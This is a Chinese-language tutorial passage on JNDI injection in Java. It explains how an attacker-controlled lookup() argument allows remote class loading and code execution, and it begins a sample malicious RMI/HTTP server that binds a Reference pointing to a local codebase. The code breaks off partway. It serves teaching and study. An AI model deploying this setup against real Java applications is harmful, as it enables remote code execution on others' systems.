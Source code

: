 ![1558058723406](https://github.com/sunSUNQ/Java_learning/raw/master/Spring_JNDI_Unserialize/image/1558058723406.png)

说明了，即使将`Context.PROVIDER_URL`的参数初始化为 `rmi://127.0.0.1:1099/a` ，但是如果`lookup`的参数可以控制，就可以重写`url`地址，将`url`指向我们特定的服务器。

```
// Create the initial context
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL, "rmi://secure-server:1099");
Context ctx = new InitialContext(env);
// Look up in the local RMI registry
// 重写了lookup的参数，可以实现远程加载恶意的对象，实现远程代码执行
Object local_obj = ctx.lookup(<attacker controlled>);
```

### 通过JNDI注入导致远程代码执行方法

1. RMI通过JNDI reference远程调用object方法
2. CORBA IOR 远程获取实现类
3. LDAP 通过序列化对象，JNDI Referene，ldap地址

## JNDI 注入样例

### Server端

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import com.sun.net.httpserver.HttpServer;

import javax.naming.Reference;
import java.net.InetSocketAddress;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;

public class ServerTest {

    public static void main(String args[]) throws Exception {
		//创建了一个HTTP服务
        System.out.println("Starting HTTP server");
        HttpServer httpServer = HttpServer.create(new InetSocketAddress(8000), 0);
        httpServer.createContext("/",new HttpFileHandler());
        httpServer.setExecutor(null);
        httpServer.start();
		//创建了一个RMI服务
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference object = new Reference("ExportObject", "ExportObject", "http://127.0.0.1:8000/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(object);
        //将类别绑定到RMI中
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/object'");
```